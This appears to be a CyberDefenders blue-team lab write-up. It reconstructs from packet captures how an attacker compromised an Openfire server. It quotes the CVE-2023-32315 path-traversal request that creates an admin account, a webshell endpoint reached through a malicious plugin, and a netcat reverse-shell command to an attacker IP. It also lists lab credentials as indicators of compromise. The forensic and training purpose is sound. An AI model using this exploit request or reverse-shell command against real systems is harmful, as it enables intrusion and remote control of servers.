







## Scenario

An Openfire messaging server was compromised in a data breach exposing sensitive communications. Network capture files were provided to identify the exploitation method, trace attacker actions, and extract indicators of compromise.

---

## Tooling

- Wireshark

---

## Investigation

### Initial Access — Credential Harvesting

Filtering for POST requests to identify login activity:

`http.request.method == "POST"`

This revealed a login request containing a CSRF token and plaintext credentials:

- **CSRF Token:** `tmJU6J9uym8oIOD`
- **Password:** `Admin@Passw0rd#@#`

### Account Creation via Path Traversal

Filtering for GET requests exposed the attacker exploiting CVE-2023-32315 — an authentication bypass in Openfire's setup console — to create a new administrative account via path traversal:

`http.request.method == "GET"`

The malicious request:

`GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=yGWwGRL3IKMHPFX&username=3536rr&password=dc0b2y&passwordConfirm=dc0b2y&isadmin=on`

The URL-encoded `%u002e%u002e` sequences decode to `..` — traversing out of the setup directory to reach the user creation endpoint without authentication.

- **Username created:** `3536rr`
- **Password:** `dc0b2y`

### Admin Panel Access

With the newly created account, the attacker authenticated to the admin panel using a second account:

- **Username:** `a7zo4l`

### Malicious Plugin Upload

Following the HTTP stream for `plugin-admin.jsp?uploadplugin` revealed the attacker uploading a malicious plugin to establish persistent code execution:

- **Plugin filename:** `openfire-plugin.jar`

### Webshell Execution

With the plugin active, the attacker used the exposed `cmd.jsp` endpoint to execute commands:

`POST /plugins/openfire-plugin/cmd.jsp?action=command HTTP/1.1`

First command executed: `whoami`

The attacker then established a reverse shell using netcat:

`command=nc+192.168.18.160+8888+-e+%2Fbin%2Fbash`

Decoded: `nc 192.168.18.160 8888 -e /bin/bash`

### Post-Exploitation Reconnaissance

Following the reverse shell stream revealed host reconnaissance commands:

- `ifconfig` — enumerate network interfaces
- `id` — confirm running user privileges
- `uname -a` — identify OS and kernel version
- `whoami` — confirm execution context

## IOCs 

| Type               | Value               |
| ------------------ | ------------------- |
| IP                 | 192.168.18.160      |
| CVE                | CVE-2023-32315      |
| CSRF Token         | tmJU6J9uym8oIOD     |
| Admin Password     | Admin@Passw0rd#@#   |
| Created Username   | 3536rr              |
| Admin Username     | a7zo4l              |
| Malicious Plugin   | openfire-plugin.jar |
| Reverse Shell Port | 8888                |
## Conclusion

> The attacker exploited CVE-2023-32315, an authentication bypass in Openfire's setup console, using path traversal to create a rogue admin account without credentials. After authenticating to the admin panel, they uploaded a malicious JAR plugin exposing a command execution endpoint, then used it to spawn a netcat reverse shell and conduct post-exploitation reconnaissance.

---

## References

- [CVE-2023-32315 — Openfire Authentication Bypass](https://nvd.nist.gov/vuln/detail/cve-2023-32315)
- [MITRE T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [MITRE T1048 — Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [CyberDefenders — Openfire Lab](https://cyberdefenders.org/blueteam-ctf-challenges/openfire/)



















I successfully completed Openfire Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/inksec/openfire/
 
#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender